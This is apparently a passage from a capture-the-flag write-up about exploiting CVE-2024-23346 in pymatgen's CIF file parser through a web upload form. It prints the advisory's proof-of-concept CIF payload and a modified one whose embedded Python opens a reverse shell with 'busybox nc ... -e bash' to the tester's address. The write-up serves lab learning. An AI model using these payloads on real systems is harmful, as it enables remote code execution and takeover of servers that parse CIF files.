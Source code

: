 ### CVE-2024-23346

I tested the file uploads and it seems to strictly require a CIF file. Next onto google to search for any vulnerabilities around processing these files. I did find a CVE within the pymatgen library which processes CIF files. Worth a look.

[https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) is the official github advisory labelling a way to subclass traverse to the BuiltinImporter and load the os module for arbitrary code execution. The payload that executes the code is similar to SSTI within python where you find all objects then grab the one you need to import or use a local module for arbitrary code execution. Below is the payload from that advisory.

```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

I uploaded this and got a 500 internal server error. Seems I need to still adhere to some expected structure. To do this I'll modify the test data to replace the _space_group and add the references to the _space_group to the bottom. I tried some other shells but going down the list busybox was the first one to work for me. You might have different results as many of my tests were 500 internal server errors. 

```bash
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.94 7777 -e bash");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
